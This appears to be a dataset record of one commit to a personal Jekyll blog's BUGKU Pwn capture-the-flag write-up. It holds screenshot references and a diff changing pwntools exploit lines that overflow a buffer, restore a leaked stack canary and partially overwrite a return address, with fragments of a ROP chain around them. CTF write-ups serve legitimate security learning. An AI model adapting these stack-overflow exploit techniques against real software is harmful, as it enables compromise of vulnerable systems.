

Before and after one commit to Stan-Pr0t3ct/Stan-Pr0t3ct.github.io, a Jekyll site: the page built from _posts/2020-05-18-BUGKU[Pwn].md, in a window 1280 px wide and 900 px high, scrolled down 7342 px. Shown: the part 152-813 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
update pwn3

```diff
--- a/_posts/2020-05-18-BUGKU[Pwn].md
+++ b/_posts/2020-05-18-BUGKU[Pwn].md
@@ -333,7 +333,7 @@ log.info("Canary:"+hex(canary))
 
 #返回main
 a.recvuntil("624)")
-a.sendline(b"a" * (0x260-8) + p64(canary) + p64(0) + b"\x20")
+a.sendline(b"a" * (0x260-8) + p64(canary) + b"a" * 8 + b"\x20")
 
 ##################第二轮##################
 a.sendafter("path:\n","flag\n")
@@ -353,7 +353,7 @@ pop_rdi_ret_addr = base + pop_rdi_ret
 
 #返回main
 a.recvuntil("624)")
-a.sendline(b"a" * (0x260-8) + p64(canary) + p64(0) + b"\x20")
+a.sendline(b"a" * (0x260-8) + p64(canary) + b"a" * 8 + b"\x20")
 
 ##################第三轮##################
 a.sendafter("path:\n","flag\n")
```
